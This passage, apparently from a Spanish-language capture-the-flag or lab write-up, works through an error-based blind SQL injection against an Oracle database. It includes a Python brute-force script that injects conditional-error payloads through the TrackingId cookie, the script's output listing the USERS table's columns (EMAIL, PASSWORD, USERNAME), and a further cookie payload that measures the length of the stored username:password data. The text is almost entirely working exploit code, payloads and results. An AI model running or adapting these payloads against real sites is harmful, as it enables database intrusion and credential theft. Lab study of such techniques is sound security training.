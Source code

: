 ```

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 24):
            for character in characters:
                cookies = {
                    'TrackingId': "C5PhDxyLUgYK5wqP'||(select case when (substr((select listagg(column_name, ' ') within group (order by column_name) from all_tab_columns where table_name = 'USERS' and owner = 'PETER'), %d, 1) = '%s') then to_char(1/0) else null end from dual)||'" % (position, character),
                    'session': "BMvtH2Wf9tGi7WdeVufBPzLwygoHxxPD"
                }

                p1.status(cookies['TrackingId'][:150])

                r = requests.get(url, cookies=cookies)

                if r.status_code == 500:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```

`Obtenemos` las `columnas`

```
# python sqli_conditional_error.py                                  
[▝] Fuerza bruta: C5PhDxyLUgYK5wqP'||(select case when (substr((select listagg(column_name, ' ') within group (order by column_name) from all_tab_columns where table_na
[█] Output: EMAIL%PASSWORD%USERNAME
```

Usamos este `payload` para `obtener` la `longitud` contenido de las columnas `USERNAME` y `PASSWORD` de la tabla `USERS` cuyo propietario es `PETER`

```
Cookie: TrackingId=tUTQzgBhjwUdED3A'||(select case when (length((select listagg(username || ':' || password, ' ') within group (order by username) from PETER.USERS)) > 1) then to_char(1/0) else null end from dual)||'; session=jfUUooip2oaljIAJ5cX97j7YkqBYCAfb
```

`Obtenemos` que `90` es la `longitud`
